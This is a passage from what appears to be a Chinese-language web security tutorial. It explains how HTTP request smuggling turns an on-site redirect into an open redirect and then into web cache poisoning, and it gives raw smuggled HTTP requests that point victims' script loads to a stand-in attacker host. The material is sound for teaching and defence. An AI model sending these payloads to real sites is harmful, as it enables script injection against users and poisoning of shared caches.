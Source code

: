 ### <a class="reference-link" name="%E5%88%A9%E7%94%A8HTTP%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E5%B0%86%E9%A1%B5%E9%9D%A2%E5%86%85%E9%87%8D%E5%AE%9A%E5%90%91%E8%BD%AC%E5%8F%98%E4%B8%BA%E5%BC%80%E6%94%BE%E9%87%8D%E5%AE%9A%E5%90%91"></a>利用HTTP请求走私将页面内重定向转变为开放重定向

首先我们看这样一个请求

```
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/

```

这是一个页面内重定向的请求，但是我们可以利用HTTP请求走私使其跳转到其他任意域，例如

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X

```

后续的请求会被影响成这样

```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/

```

此处，用户请求的是由网站上的页面导入的JS文件。攻击者可以通过在响应中返回他们自己的JS来完全危害受害用户。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8HTTP%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E5%8F%91%E5%8A%A8web%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92"></a>利用HTTP请求走私发动web缓存投毒

由上一种情况派生出，如果应用系统开启了缓存功能，在已经生成了重定向到恶意域的缓存以后，会影响到其他的用户，例如

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com

```
